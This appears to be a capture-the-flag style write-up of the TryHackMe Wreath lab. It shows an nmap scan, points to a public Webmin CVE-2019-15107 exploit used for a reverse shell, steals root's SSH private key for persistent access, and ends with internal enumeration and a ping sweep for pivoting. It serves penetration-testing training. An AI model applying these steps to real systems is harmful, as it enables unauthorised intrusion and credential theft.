 link: https://tryhackme.com/room/wreath
<code><h2>Enumaration PublicFacing Webserver </h2>
┌──(duke㉿kali)-[~/Documents/THM_Wreath]
└─$ nmap -sV -sC -Pn 10.200.85.200
Starting Nmap 7.92 ( https://nmap.org ) at 2024-01-24 05:31 CST
Nmap scan report for 10.200.85.200
Host is up (0.53s latency).
Not shown: 920 filtered tcp ports (no-response), 75 filtered tcp ports (host-unreach)
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 9c:1b:d4:b4:05:4d:88:99:ce:09:1f:c1:15:6a:d4:7e (RSA)
|   256 93:55:b4:d9:8b:70:ae:8e:95:0d:c2:b6:d2:03:89:a4 (ECDSA)
|_  256 f0:61:5a:55:34:9b:b7:b8:3a:46:ca:7d:9f:dc:fa:12 (ED25519)
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-title: Did not follow redirect to https://thomaswreath.thm
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
443/tcp   open   ssl/http   Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Thomas Wreath | Developer
| ssl-cert: Subject: commonName=thomaswreath.thm/organizationName=Thomas Wreath Development/stateOrProvinceName=East Riding Yorkshire/countryName=GB
| Not valid before: 2024-01-24T10:54:15
|_Not valid after:  2025-01-23T10:54:15
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
9090/tcp  closed zeus-admin
10000/tcp open   http       MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.90 seconds

<b>Service Webmin is vulnarable</b>
link: https://github.com/MuirlandOracle/CVE-2019-15107

use exploit to get reverse shell

<b>download /root/.ssh/id_rsa to get pernament access via ssh</b>

┌──(duke㉿kali) [/Documents/THM_Wreath]
└─$ cp id_rsa root                        
┌──(duke㉿kali) [/Documents/THM_Wreath]
└─$ chmod +600 root 
┌──(duke㉿kali) [/Documents/THM_Wreath]
└─$ ssh -i root root@10.200.85.200
[root@prod-serv ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@prod-serv ~]# 

<h2>Enumaration/Pivoting </h2>
run linpeas
╔══════════╣ Mails (limit 50)
 13718632      0 -rw-rw----   1  twreath  mail            0 Nov  7  2020 /var/mail/twreath                          
 12674676      0 -rw-rw----   1  dheenaxe mail            0 Jan 25 07:58 /var/mail/dheenaxe
 13718632      0 -rw-rw----   1  twreath  mail            0 Nov  7  2020 /var/spool/mail/twreath
 12674676      0 -rw-rw----   1  dheenaxe mail            0 Jan 25 07:58 /var/spool/mail/dheenaxe

 [root@prod-serv ~]# netstat -a
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:hostmon         0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:ndmp            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN     
tcp        0     36 ip-10-200-85-200.eu:ssh ip-10-50-86-201.e:52266 ESTABLISHED
tcp        1      0 ip-10-200-85-200.e:ndmp ip-10-50-86-177.e:50390 CLOSE_WAIT 
tcp        0      0 ip-10-200-85-200.:52180 ip-10-50-8:search-agent ESTABLISHED
tcp        0      0 ip-10-200-85-200.:56776 ip-10-50-86-177.e:https ESTABLISHED
tcp        1      0 ip-10-200-85-200.e:ndmp ip-10-50-86-231.e:58264 CLOSE_WAIT 

[root@prod-serv ~]# arp -a
ip-10-200-85-150.eu-west-1.compute.internal (10.200.85.150) at 02:1a:65:6e:5d:1f [ether] on eth0
ip-10-200-85-100.eu-west-1.compute.internal (10.200.85.100) at 02:35:7b:8f:3a:af [ether] on eth0
ip-10-200-85-1.eu-west-1.compute.internal (10.200.85.1) at 02:16:e7:43:1c:11 [ether] on eth0

[root@prod-serv ~]# for i in {1..255}; do (ping -c 1 10.200.85.${i} | grep "bytes from" &); done
64 bytes from 10.200.85.1: icmp_seq=1 ttl=255 time=0.293 ms
64 bytes from 10.200.85.200: icmp_seq=1 ttl=64 time=0.051 ms
64 bytes from 10.200.85.250: icmp_seq=1 ttl=64 time=0.574 ms


</code>

